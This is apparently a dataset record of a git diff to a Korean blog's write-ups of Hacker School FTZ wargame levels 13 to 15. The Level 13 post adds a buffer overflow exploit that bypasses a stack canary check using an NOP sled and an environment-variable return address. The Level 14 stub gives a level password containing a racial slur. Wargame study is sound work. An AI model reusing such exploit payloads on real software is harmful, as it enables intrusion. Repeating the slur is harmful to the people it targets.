

edit

Changed region(s): [[0.0, 0.03, 1.0, 0.99], [0.3252, 0.18, 0.5913, 0.27]]

diff --git a/_posts/2021-06-02-Hacker-School-FTZ-Level-13.md b/_posts/2021-06-02-Hacker-School-FTZ-Level-13.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title: "Hacker School FTZ - Level 13"
-description: "Do you know the ?"
+description: "Do you know the canary?"
 comments: true
 categories: ftz
 ---
@@ -71,3 +71,18 @@ echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
 gcc -o getenv getenv.c
 ```
 
+## 4) BOF 수행하기  
+
+앞선 문제들 같은 경우엔 buf 배열 + dummy + SFP 부분은 모두 NOP으로만 채웠겠지만  
+dummy 부분에 BOF를 탐지하는 유사 카나리 기법이 적용되어 있기 때문에 이 부분을 우회하도록 하겠습니다.  
+
+위의 스택의 구조를 도식화한 그림을 보면 buf 배열(1024 byte) + dummy(12 byte) + "0x1234567" + dummy(8 byte) + SFP + RET로 스택이 구성되어 있습니다.  
+따라서 "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\[EGG 환경 변수 주소\]"를 입력하면 됩니다.  
+
+위에서 EGG 환경 변수 주소를 구했기 때문에 바로 프로그램에 BOF를 시도하겠습니다.  
+
+``` bash
+./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x8d\xfc\xff\xbf"'`
+```
+
+<img data-action="zoom" src='{{ "assets/ftz/level13/7.png" | relative_url }}' alt='relative'>  

diff --git a/_posts/2021-06-09-Hacker-School-FTZ-Level-14.md b/_posts/2021-06-09-Hacker-School-FTZ-Level-14.md
@@ -1,0 +1,12 @@
+---
+layout: post
+title: "Hacker School FTZ - Level 14"
+description: "Do you know the ?"
+comments: true
+categories: ftz
+---
+
+<img data-action="zoom" src='{{ "assets/ftz/level14/1.jpg" | relative_url }}' alt='relative'>  
+
+## 1) level14/what that nigga want? 입력해 로그인  
+

diff --git a/_posts/2021-06-11-Hacker-School-FTZ-Level-15.md b/_posts/2021-06-11-Hacker-School-FTZ-Level-15.md
@@ -1,0 +1,12 @@
+---
+layout: post
+title: "Hacker School FTZ - Level 15"
+description: "Do you know the ?"
+comments: true
+categories: ftz
+---
+
+<img data-action="zoom" src='{{ "assets/ftz/level15/1.jpg" | relative_url }}' alt='relative'>  
+
+## 1) level15/ 입력해 로그인  
+ 
